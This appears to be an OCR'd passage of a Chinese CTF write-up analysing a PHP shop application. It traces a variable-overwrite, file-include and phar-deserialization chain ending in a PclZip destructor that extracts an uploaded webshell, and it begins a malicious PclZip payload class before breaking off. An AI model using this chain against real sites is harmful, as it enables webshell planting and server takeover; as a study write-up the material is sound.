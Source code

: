       {
          $this->extract(PCLZIP_OPT_PATH, $this->save_path);
      }
PCLZIP解压缩，然后将文件放在指定目录，同时品牌管理处又能上传zip文件，那么只要想办法触发即可。即在admin.php上传的压缩的一句话木马文件要触发这里的destruct。
那么就从admin.php开始看，首先：include('common.php');
common.php 12行就有个变量覆盖
    if (@ini_get('register_globals')) {
    	foreach ($_REQUEST as $name => $value) unset($$name); //这里没懂为啥会触发覆盖
    }
    ......
    if (get_magic_quotes_gpc()) {  //这函数恒为false，从7.4版本就被废弃。
	    !empty($_GET) && extract(pe_trim(pe_stripslashes($_GET)), EXTR_PREFIX_ALL, '_g');
	    !empty($_POST) && extract(pe_trim(pe_stripslashes($_POST)), EXTR_PREFIX_ALL, '_p');
    }
    else {
	    !empty($_GET) && extract(pe_trim($_GET),EXTR_PREFIX_ALL,'_g');
    	!empty($_POST) && extract(pe_trim($_POST),EXTR_PREFIX_ALL,'_p');
后面说是对变量加上前缀。进行处理。在前缀和键值中会加一个下划线。
继续看。可以包含任意目录的php文件（其实早就已经看不懂了。。。
if (in_array("{$mod}.php", pe_dirlist("{$pe['path_root']}module/{$module}/*.php"))) {
	include("{$pe['path_root']}module/{$module}/{$mod}.php");
}
利用变量覆盖。包含admin目录下的moban.php（/module/admin/moban.php
只有它引用了pclzip.class.php（罢了 这要是我一辈子找不着 看guoke师傅 wp就行了QAQ
switch一个参数进入del：
    case 'del':
		pe_token_match();
		$tpl_name = pe_dbhold($_g_tpl);
		if ($tpl_name == 'default') pe_error('默认模板不能删除...');
		if ($db->pe_num('setting', array('setting_key'=>'web_tpl', 'setting_value'=>$tpl_name))) {
			pe_error('使用中不能删除');
		}
		else {
			pe_dirdel("{$tpl_name}");
			pe_success('删除成功!');
		}
	break;
pe_dirdel函数触发phar反序列化。

懂了，大致意思就是上传一个压缩的phar文件：
    <?php 
    class PclZip{
	    var $zipname = '';
	    var $zip_fd = 0;
	    var $error_code = 1;
        var $error_string = '';
        var $magic_quotes_status;
        var $save_path = '/var/www/html/data';//解压目录
    
        function __construct($p_zipname){
    	    
  		    $this->zipname = $p_zipname;
    	    $this->zip_fd = 0;
    	    $this->magic_quotes_status = -1;
    
